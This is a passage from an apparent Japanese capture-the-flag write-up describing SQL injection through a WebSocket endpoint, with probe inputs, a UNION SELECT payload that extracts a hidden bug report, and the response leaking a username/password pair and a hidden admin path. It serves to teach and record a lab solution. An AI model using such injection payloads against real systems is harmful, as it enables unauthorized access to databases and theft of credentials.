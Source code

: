裏側で、WebSocketの通信を行っており、そこにSQLインジェクションの脆弱性がありました。  
ここまではすぐ分かったのですが、UNION SELECTの箇所で手間取りました。  
information_schemaが使えずデータベースの特定もできなかったためです。

以下は動いているようでした。

```sql
2 and '123'='123456'::VARCHAR(3)
1 and 'ab'='a'||'b'
```

ID=11のデータが非表示ながら存在することが分かっていたので、一旦そのデータを取り出してみることにしました。  
テーブル名とカラム名は推測で特定しました。

- WebSocketでのペイロード

```json
{"id":"0 union all select 1,'2','3','4','5','6',(select description from bug_reports where id=11),'8'"}
```

- レスポンス

```json
{"message": "<span class=6>Bug report from crypt0:c4tz on /4dm1n_z0n3, really?! is 6</span>"}
```

`/4dm1n_z0n3`という管理者ページがあることが分かりました。

![bug report repo 02](./images/bugreportrepo_02.png)
